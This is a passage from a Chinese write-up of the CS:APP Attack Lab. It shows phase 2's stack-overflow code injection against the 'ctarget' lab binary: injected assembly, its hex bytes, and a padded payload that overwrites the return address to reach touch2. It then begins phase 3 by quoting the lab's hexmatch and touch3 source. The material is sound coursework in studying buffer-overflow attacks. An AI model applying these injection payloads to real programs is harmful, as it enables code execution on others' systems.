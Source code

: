 我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch2()的代码。

这一部分思路是首先向栈中注入修改cookie的可执行二进制代码（函数第一个参数通过寄存器rdi传递）和返回到touch2()的代码，最后通过栈溢出覆盖返回地址到栈上。touch2.s如下：

```asm
movl $0x59b997fa,%edi
push $0x4017ec
ret
```

随后通过`objdump -d`命令查看可执行二进制代码：

![1596275546577](./imgs/csapp25.png)

touch2.txt如下：

```
bf fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

执行结果：

![1596275563936](./imgs/csapp26.png)

#### phase 3

这一部分同样是代码注入攻击，但是传递字符串作为攻击。在ctarget文件中hexmatch和touch3函数的代码如下：

```C
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
```
